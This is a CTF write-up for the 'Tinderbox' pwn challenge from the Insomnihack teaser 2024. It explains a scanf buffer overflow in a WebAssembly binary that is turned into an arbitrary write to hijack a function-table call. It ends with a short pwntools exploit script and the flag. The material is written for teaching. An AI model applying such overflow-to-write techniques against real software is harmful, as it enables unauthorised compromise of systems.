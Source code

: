 ```yaml
---
title: 'Insomnihack teaser 2024'
challenge: 'Tinderbox'
date: 2024-01-22T00:00:00+01:00
author: 'v0lp3 & SimozB & Bonfra'
description: 'Writeup for challenge TinderBox of Insomnihack teaser 2024' 
cover: '/img/Insomnihack_teaser_2024/logo.png'
tags: ['pwn', 'misc']
draft: false
---
```


```
My friend is not a great developer but he insisted to work on a prototype in C. He said he compiled the program to WebAssembly and "it is super secure" but I am doubtful.

nc tinderbox.insomnihack.ch 7171

Note: the server runs the module using `Wasmtime 16.0.0` and the runtime has access to the current directory.
```

### Quick look

The challenge attachment is a wasm file as confirmed by the `file` command.

```bash
$ file bin.wasm
bin.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
```

We can run this binary with the [Wasmtime](https://github.com/bytecodealliance/wasmtime) runtime:

```bash
$ wasmtime bin.wasm
Tell me your name:
```

We can provide arbitrary length name but no visible crash happens in any case. After we enter a string a small menu is displayed:

```bash
$ wasmtime bin.wasm
Tell me your name: naslab
1 - I made a typo in my name!
2 - Do some math for me.
3 - Tell me a joke!
```

The behavior of the options is as follows:

- (1) allows you to change the first letter of the name
- (2) take a number as input and calculate **37 - your input**
- (3) print a text

We can use the [ghidra-wasm-plugin](https://github.com/nneonneo/ghidra-wasm-plugin) to disassemble it in Ghidra.

### Vulnerability

{{< figure src="/img/Insomnihack_teaser_2024/get_name.png" position="center" caption="Get name function">}}

After disassembling it in Ghidra we immediately notice that the function `get_name` uses `scanf` with the format string `%s`. It's clearly a buffer overflow.
We can see that there is a function called `win` that we need to call to print the flag and that is referenced by a function table as shown below.

{{< figure src="/img/Insomnihack_teaser_2024/jump_table.png" position="center" caption="Function table" >}}

{{< figure src="/img/Insomnihack_teaser_2024/setValues.png" position="center" caption="setValues function">}}

Some minimal refactoring later we found that the `setValues` function (traceback: `setValues` <= `fixTypo` <=  `menu` <= `__original_main`) can be abused to get arbitrary write primitive on the memory and get the flag. Here is why:

- The buffer where `name` is stored is allocated in the `__original_main` function, so the buffer overflow occurs in that function context
- The `__original_main` function defines a `jump_table_offsets` which contains some offsets that are used to call the correct function in the function table shown above.
- The `__original_main` function calls the `menu` function and passes `name`, `jump_table_offsets` pointers and a variable `name_offset` containing **0**. This offset is used in the `setValues` function as a reference to the first character of the `name` buffer. In short, it is the offset of the character modified by `fixTypo`.

{{< figure src="/img/Insomnihack_teaser_2024/original_main.png" position="center" caption="original_main function" >}}

We can't use the buffer overflow directly to overwrite `jump_table_offsets` because the stack layout is the following:
*Note: in this stack representation the numbers in square bracket are refered to the size of the array.*

```
+________________________+
|                        |
|  jump_table_offsets[4] |
|________________________|
|                        |
|        name[16]        |
|________________________|
|                        |
|       name_offset      |
|________________________|
|                        |
|        something       |
|________________________|
|                        |
|           ret          |
+________________________+

```

We can exploit this to change the values of `name_offset` to negative value, and gain arbitrary memory write with `setValues`functions. Basically we only need to modify `jump_tables_offset[1]` from value **1** to **2**, so we'll call `win` function when we run third option in the menu.

{{< figure src="/img/Insomnihack_teaser_2024/menu.png" position="center" caption="menu function">}}

After some trial and errors we found out that the right offset to modify `jump_tables_offset[1]` is **-12**. 

Here is the script used to get the flag:

```python
from pwn import *

p = remote("tinderbox.insomnihack.ch", 7171)
p.sendlineafter("name:", b"A" * 16 + p32(-12, signed=True))
p.sendlineafter("joke!", "1")
p.sendlineafter("there", "2")
p.sendlineafter("joke!", "3")

p.interactive()
```

> INS{L00k_mUm!W1th0ut_toUch1ng_RIP!}
